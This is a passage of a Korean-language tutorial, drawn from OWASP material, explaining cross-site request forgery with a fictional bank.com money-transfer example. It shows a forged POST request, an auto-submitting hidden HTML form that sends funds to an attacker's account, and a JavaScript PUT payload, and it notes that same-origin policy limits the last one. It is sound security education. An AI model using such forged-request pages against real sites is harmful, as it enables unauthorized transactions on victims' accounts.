 ```http
POST http://bank.com/transfer.do HTTP/1.1

acct=BOB&amount=100
```

이러한 요청은 표준 A 또는 IMG 태그를 사용하여 전달할 수 없지만 FORM 태그를 사용하여 전달할 수 있습니다.

```html
<form action="http://bank.com/transfer.do" method="POST">

<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>

</form>
```

이 양식을 사용하려면 제출 버튼을 클릭해야하지만 JavaScript를 사용하여 자동으로 실행할 수도 있습니다.

```html
<body onload="document.forms[0].submit()">

<form></form>
```

### 다른 HTTP 메소드 시나리오

최신 웹 애플리케이션 API는 PUT 또는 DELETE와 같은 다른 HTTP 메소드를 자주 사용합니다. 취약한 은행이 JSON 블록을 인수로 취하는 PUT을 사용한다고 가정 해 봅시다.

```http
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"BOB", "amount":100 }
```

이러한 요청은 익스플로잇 페이지에 임베드 된 JavaScript로 실행될 수 있습니다.

```html
<script>
function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://bank.com/transfer.do",true);
    x.setRequestHeader("Content-Type", "application/json");
    x.send(JSON.stringify({"acct":"BOB", "amount":100})); 
}
</script>

<body onload="put()">
```

다행스럽게도이 요청은 동일한 출처 정책 제한으로 인해 최신 웹 브라우저에서 실행 되지 않습니다. 이 제한은 대상 웹 사이트가 다음 헤더와 함께 CORS 를 사용하여 공격자 (또는 모든 사람)의 출처에서 교차 출처 요청을 명시 적으로 열지 않는 한 기본적으로 사용됩니다.

## 출처

- [https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf)
- [https://owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)